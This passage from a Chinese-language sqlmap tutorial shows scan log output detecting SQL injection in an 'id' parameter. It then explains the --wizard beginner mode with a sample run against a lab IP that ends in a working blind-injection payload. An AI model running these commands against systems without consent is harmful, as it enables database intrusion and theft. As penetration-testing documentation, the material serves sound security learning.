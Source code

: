 ```
[xx:xx:14] [INFO] GET parameter 'id' is 'AND boolean-based blind - WHERE or HAVING clause' injectable
[xx:xx:14] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[xx:xx:14] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause' injectable
[xx:xx:14] [INFO] testing 'MySQL inline queries'
[xx:xx:14] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[xx:xx:14] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[xx:xx:14] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL > 5.0.11 AND time-based blind' injectable
[xx:xx:24] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[xx:xx:24] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other potential injection technique found
[xx:xx:24] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[xx:xx:24] [INFO] target URL appears to have 3 columns in query
[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[...]
```
初级用户向导参数

参数：`--wizard` 面向初级用户的参数，可以一步一步教你如何输入针对目标注入。
```
$ python sqlmap.py --wizard
 
    sqlmap/1.0-dev-2defc30 - automatic SQL injection and database takeover tool
 
http://sqlmap.org
 
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
 
[*] starting at 11:25:26
 
Please enter full target URL (-u): http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1
POST data (--data) [Enter for None]:
Injection difficulty (--level/--risk). Please choose:
[1] Normal (default)
[2] Medium
[3] Hard
> 1
Enumeration (--banner/--current-user/etc). Please choose:
[1] Basic (default)
[2] Smart
[3] All
> 1
 
sqlmap is running, please wait..
 
heuristic (parsing) test showed that the back-end DBMS could be 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
do you want to include all tests for 'Microsoft SQL Server' extending provided level (1) and risk (1)? [Y/n] Y
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection points with a total of 25 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2986=2986
 
```